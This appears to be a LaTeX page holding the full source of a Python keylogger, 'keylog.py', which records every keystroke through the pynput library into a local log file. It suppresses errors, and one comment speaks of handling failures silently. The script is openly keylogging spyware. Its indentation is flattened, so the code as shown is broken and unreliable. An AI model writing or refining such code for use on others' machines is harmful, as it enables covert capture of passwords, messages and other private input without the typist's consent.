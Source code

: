 \documentclass[11pt]{article}
\begin{document}
	\subsection{keylog.py}
	\begin{verbatim}
		from pynput import keyboard
		import os # For creating log directory
		
		LOG_DIR = "logs"
		LOG_FILE = os.path.join(LOG_DIR, "key.txt")
		
		def ensure_log_dir():
		if not os.path.exists(LOG_DIR):
		os.makedirs(LOG_DIR)
		
		def on_press(key):
		text = ""
		# ... (rest of your on_press logic) ...
		if key == keyboard.Key.enter:
		text += "\n"
		elif key == keyboard.Key.tab:
		text += "\t"
		elif key == keyboard.Key.space:
		text += " "
		elif key == keyboard.Key.shift_l or key == keyboard.Key.shift_r or \
		key == keyboard.Key.alt_l or key == keyboard.Key.alt_r or \
		key == keyboard.Key.cmd or key == keyboard.Key.cmd_r: # Mac keys
		pass # Ignore modifier keys themselves
		elif key == keyboard.Key.backspace:
		# This logic is tricky if 'text' is local to on_press
		# For simplicity, we'll just log "[BACKSPACE]"
		text += "[BACKSPACE]"
		elif key == keyboard.Key.ctrl_l or key == keyboard.Key.ctrl_r:
		pass
		elif key == keyboard.Key.esc:
		return False # Stop listener
		else:
		try:
		text += str(key.char) # For regular character keys
		except AttributeError:
		text += f"[{str(key).split('.')[-1].upper()}]" # For special keys like Key.space
		
		if text: # Only write if there's something to log
		try:
		with open(LOG_FILE, "a+") as file:
		file.write(text)
		except Exception as e:
		# In a real scenario, consider how to handle logging errors silently
		# print(f"Error writing to keylog: {e}") 
		pass
		
		if __name__ == "__main__":
		ensure_log_dir()
		with keyboard.Listener(on_press=on_press) as listener:
		try:
		listener.join()
		except Exception as e:
		# print(f"Error with listener: {e}")
		pass
	\end{verbatim}
	Source: Provided `keylog.py` file (with minor illustrative enhancements).
	
\end{document}
